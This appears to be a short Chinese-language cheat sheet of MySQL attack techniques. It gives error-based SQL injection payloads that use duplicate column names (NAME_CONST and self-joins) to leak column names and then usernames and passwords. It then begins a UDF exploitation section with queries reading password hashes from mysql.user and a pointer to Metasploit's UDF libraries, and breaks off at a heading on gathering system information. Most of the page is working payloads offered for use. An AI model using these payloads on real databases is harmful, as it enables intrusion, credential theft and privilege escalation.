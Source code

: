 ## MySQL列名重复 报错

- Example

```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
```

![](https://ae01.alicdn.com/kf/Hc338c81da5b44512a8d83913d13de0abP.jpg)

- join函数爆列名

```
select *  from(select * from users a join users b)c;
```
![](https://ae01.alicdn.com/kf/H8c2e81af91f444d9be000a9c77825fe1J.jpg)

```
select *  from(select * from users a join users b using(id))c;
```

![](https://ae01.alicdn.com/kf/Ha11dd656262249bc97ccf3e572bf7a60h.jpg)

- 爆数据

```
select * from (select * from users a join users b using(id,username,password))c;
```

![](https://ae01.alicdn.com/kf/He4e632e6a2004cc8a33366706ade2d70g.jpg)

- 关于 join参考

>>http://wxb.github.io/2016/12/15/MySQL%E4%B8%AD%E7%9A%84%E5%90%84%E7%A7%8Djoin.html


## MySQL UDF Exploitation

>>https://osandamalith.com/2018/02/11/mysql-udf-exploitation/

```
select host, user, password from mysql.user;
```
![](https://ae01.alicdn.com/kf/H1c9d1a119ac74ac9b717c68f51c39e32g.jpg)

```
select * from mysql.user where user = substring_index(user(), '@', 1) ;
```

![](https://ae01.alicdn.com/kf/H35f812e965b942b9b16a989feea063dbw.jpg)

- dll下载地址

```
https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql
```

- 获取当前操作系统以及数据库架构情况
